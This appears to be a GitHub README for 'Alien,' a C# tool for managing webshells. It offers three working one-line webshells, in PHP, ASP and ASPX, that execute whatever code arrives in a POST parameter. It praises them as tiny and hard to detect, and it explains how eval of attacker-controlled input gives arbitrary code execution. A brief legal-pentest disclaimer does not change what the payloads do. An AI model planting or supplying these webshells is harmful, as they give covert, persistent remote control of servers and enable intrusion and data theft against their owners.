 # Alien

Website Manager

## Disclaimer
This tool only use in legal pentest, reasearch and website management\
You should take the consequence if you use in illegal purpose.

## Language
C# .NET Framework V4.8

## OneShell
OneShell is a tool use in pentesting for control the server.\
It can be very tiny and very difficult to be found.
These are the simplest oneshell.

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```

Also, Alien support asmx , ashx webshell

## Server Manager
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## Principle
For PHP, eval() function can evaluate the string as a code.\
if eval() contains a controllable variable, then we can execute any code we like.\
Example: eval($_POST['a']);\
HTTP POST a=phpinfo();\
The the server will execute code "phpinfo();"

## Screenshot

![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)

## Acknowledgements
Every veteran who study in webshell.
